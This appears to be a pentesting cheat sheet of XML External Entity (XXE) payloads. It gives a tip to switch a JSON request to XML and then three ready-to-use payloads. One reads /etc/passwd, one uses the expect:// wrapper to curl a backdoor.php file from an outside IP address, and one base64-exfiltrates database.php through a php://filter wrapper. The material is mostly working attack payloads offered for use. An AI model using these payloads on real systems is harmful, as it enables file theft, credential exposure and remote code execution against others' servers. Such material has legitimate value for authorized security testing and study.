 # Tips
- **If you are submiting a POST Request with the Header _"Content-Type: application/json" _  try to change to  _"Content-Type: application/xml"_**

# Payloads 🧨
## Simple
```
<?xml version="1.0" encoding="UTF-8" ?>

<!DOCTYPE jagelito [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<search>name</search>
<value>&xxe;</value>
</root>
```

## RCE
```
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE root [  
<!ENTITY file SYSTEM "expect://curl$IFS-O$IFS'1.3.3.7:8000/backdoor.php'">  
]>  
<root>  
<name>Joe</name>  
<tel>ufgh</tel>  
<email>START_&file;_END</email>  
<password>kjh</password>  
</root>
```

## PHP Wrapper
Useful to read .php files
```
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=database.php"> ]>

<root>
<data>&xxe;</data>
</root>
```

# Resources
- https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
- From XML to RCE https://programmersought.com/article/74883984168/